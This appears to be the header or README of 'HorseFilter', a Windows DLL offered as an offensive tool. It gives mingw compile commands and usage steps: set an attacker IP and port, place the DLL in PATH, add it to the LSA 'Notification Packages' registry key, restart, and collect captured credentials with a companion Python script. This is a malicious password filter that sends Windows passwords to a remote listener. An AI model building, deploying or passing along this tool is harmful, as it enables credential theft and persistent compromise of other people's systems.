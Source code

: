 # HorseFilter

/* compile with:

x86_64-w64-mingw32-windres horsefilter.rc -o horsefilter.o <br />
x86_64-w64-mingw32-gcc horsefilter.c horsefilter.o -o horsefilter.dll -shared -lws2_32

*/

// to use: <br />
// change port and ip macros <br />
// add compiled dll anywhere in PATH <br />
// append dll name (no extension) to <br />
//     "HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages" <br />
// and restart <br />
// catch creds with horsefilter.py
